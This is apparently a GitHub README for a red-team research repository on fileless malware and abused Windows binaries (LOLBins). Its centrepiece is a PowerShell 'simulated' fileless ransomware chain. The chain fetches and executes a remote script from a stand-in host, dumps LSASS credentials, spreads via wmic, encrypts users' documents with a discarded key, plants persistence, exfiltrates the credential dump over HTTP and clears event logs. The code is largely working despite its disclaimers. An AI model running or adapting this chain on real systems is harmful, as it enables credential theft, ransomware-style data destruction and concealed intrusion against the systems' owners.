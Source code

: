 
# NSFW: Fileless Malware & LOLBins Research

**Repository:** `P1rat3R00t/NSFW`  
**Purpose:** Educational cybersecurity research into advanced threat techniques, focusing on fileless malware and Living-Off-the-Land Binaries (LOLBins).

---

## ⚠️ Legal & Ethical Warning

This repository contains materials on advanced cybersecurity topics, including **fileless malware**, **LOLBins abuse**, and adversary simulation.  
**All content is intended strictly for educational, academic, and controlled research lab use.**

> **🚫 Never deploy or test these techniques on unauthorized or production systems. Misuse may violate laws, ethics, and professional standards.**

---

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---

## 🧠 About Fileless Malware & LOLBins

- **Fileless malware** operates in memory, avoiding disk writes to evade antivirus/EDR.
- **LOLBins** (Living Off the Land Binaries) are legitimate Windows binaries abused by attackers for stealthy operations. Their trusted status makes detection difficult.

---

## ⚙️ Common LOLBins and Abuse Patterns

| LOLBin                     | Abused For                | ATT&CK Tactics                   |
|----------------------------|---------------------------|----------------------------------|
| `rundll32.exe`             | DLL execution             | Code execution, EDR bypass       |
| `mshta.exe`                | Run HTA payloads          | Script execution, sandbox evasion|
| `regsvr32.exe`             | Load COM DLLs             | Fileless execution, C2 proxy     |
| `wmic.exe`                 | Remote command execution  | Process launch, lateral movement |
| `cmd.exe` / `powershell.exe`| Script runners           | Payload staging, persistence     |
| `msbuild.exe`              | Inline C# compile/exec    | Fileless malware loading         |
| `certutil.exe`             | Download/decode files     | Exfiltration, staging            |
| `bitsadmin.exe`            | Remote file fetch         | Delivery, task persistence       |
| `schtasks.exe`             | Task scheduling           | Privilege escalation, persistence|
| `esentutl.exe`             | Copy/exec payloads        | Stealth ops, exfiltration        |

---

## 🧬 Simulated Kill Chain: 100% Fileless Ransomware (Lab Example)

*Technique mapping via [MITRE ATT&CK](https://attack.mitre.org/)*

> ⚠️ **Disclaimer:** This PowerShell sequence is a safe, synthetic example for red team development in a secure lab. **Never execute outside a controlled environment.**

<details>
<summary>🔐 Click to expand PowerShell Simulation Example</summary>

```powershell
# 🎯 Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 Privilege Escalation (T1548)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 🧪 Credential Access (T1003.001)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 🔍 Discovery (T1082)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select Name, MacAddress, Status
Write-Output $sysInfo; Write-Output $networkInfo

# 🌐 Lateral Movement (T1021.001)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 💣 Impact: File Encryption (T1486)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 📌 Persistence (T1547.001)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1"
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 📤 Exfiltration (T1041)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 🧹 Defense Evasion (T1070)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

</details>

---

## 🖥️ TeamViewer as a RAT: Key Points

TeamViewer, a legitimate remote desktop tool, can be misused as a Remote Access Trojan (RAT) through weak configurations, credential theft, or exploitation of software vulnerabilities.

---

## 🧭 Additional Red Team Resources

- 🛠️ [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
- 🧬 [LOLGEN – Generate LOLBin Abuse Chains](https://lolgen.hdks.org/)
- 🔍 [MITRE ATT&CK: S0697](https://attack.mitre.org/software/S0697/)
- 💥 [PrintNightmare Technical Dive](https://itm4n.github.io/printnightmare-not-over/)
- 💀 [Print Spooler Exploit Overview](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)
- 🔗 [DLL Injection Reference](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- 🦠 [Fileless Malware on Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)
- 🖨️ [Printer Driver Exploit Repo](https://github.com/jacob-baines/concealed_position)

---

## 🛡️ Final Note

This repository is for cybersecurity researchers, malware analysts, and red teamers.  
**Do not use for malicious purposes or outside legal boundaries. Always comply with your country’s laws and organizational policies.**

